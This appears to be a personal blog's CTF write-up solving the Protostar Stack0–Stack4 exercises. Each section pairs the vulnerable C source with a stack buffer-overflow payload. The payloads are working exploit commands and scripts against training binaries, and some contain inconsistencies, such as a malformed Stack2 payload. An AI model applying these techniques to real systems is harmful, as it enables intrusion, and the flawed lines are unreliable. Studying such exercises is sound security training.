 ```yaml
---
layout: blog
title: "Exploit Exercise: Protostar"
date: 2020-05-27T18:09:48.220Z
tags:
  - ctf_writeup
---
```


Protostar Challange of https://exploit-exercises.lains.space/

<!--more-->

# Stack

## `Stack0`

### source:

```c
// stack0.c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];

  modified = 0;
  gets(buffer);

  if(modified != 0) {
      printf("you have changed the 'modified' variable\n");
  } else {
      printf("Try again?\n");
  }
}
```

### how to solve:

payload:

```python
python -c "print 'A'*65"  | ./stack0
```

## `Stack1`

### source:

```c
// stack1.c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];

  if(argc == 1) {
      errx(1, "please specify an argument\n");
  }

  modified = 0;
  strcpy(buffer, argv[1]);

  if(modified == 0x61626364) {
      printf("you have correctly got the variable to the right value\n");
  } else {
      printf("Try again, you got 0x%08x\n", modified);
  }
}
```

### how to solve

because the hint tells that _protostar_ is little endian, so we have to match the payload:

```bash
./stack1 $(python -c "import struct; print('A'*64 + '\x64\x63\x62\x61' )")
```

## `Stack2`

### source:

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];
  char *variable;

  variable = getenv("GREENIE");

  if(variable == NULL) {
      errx(1, "please set the GREENIE environment variable\n");
  }

  modified = 0;

  strcpy(buffer, variable);

  if(modified == 0x0d0a0d0a) {
      printf("you have correctly modified the variable\n");
  } else {
      printf("Try again, you got 0x%08x\n", modified);
  }

}
```

### how to solve:

```shell
# set variable
GREENIE=`python -c "import struct; print('A'*68 + '\x0a\x0d\x0a\0d\0a')"`

# export it to the os env
export GREENIE

# check if it's already loaded
echo $GREENIE

# run the program
./stack2
```

one-liner solution:

```shell
GREENIE=`python -c "import struct; print('A'*64 + '\x0a\x0d\x0a\x0d')"` && export GREENIE && ./stack2
```

## `Stack3`

### source:

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
  printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
  volatile int (*fp)();
  char buffer[64];

  fp = 0;

  gets(buffer);

  if(fp) {
      printf("calling function pointer, jumping to 0x%08x\n", fp);
      fp();
  }
}
```

### how to solve:

```shell
# get win function address

(gdb) info addr win
Symbol "win" is a function at address 0x8048424.

# use win() address on the payload
python -c "print 'A' * 64 + '\x24\x84\x04\x08'" | ./stack3

# output:
calling function pointer, jumping to 0x08048424
code flow successfully changed
```

## `Stack4`

### source:

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
  printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
  char buffer[64];

  gets(buffer);
}
```

### how to solve

- override main() return method address
- see win() method by using command `objdump -t /opt/protostar/bin/stack4 | grep win`
- craft payload and try to override return value

payload:

```python
#hitstack4.py
import struct

payload = ""

for s in ['A', 'B', 'C', 'D', 'E', 'F', 'G', 'H', 'I', 'j', 'k', 'l', 'm', 'n']:
        payload += s.lower()*4

for s in ['A', 'B', 'C', 'D', 'E', 'F', 'G', 'H', 'I', 'j', 'k', 'l', 'm', 'n']:
        payload += s.lower()*4

ebp = 'EEEE'

eip = struct.pack("I", 0x080483f4)

print payload+ebp+eip
```

```bash
# run the payload
python hitstack4.py | /opt/protostar/bin/stack4
```
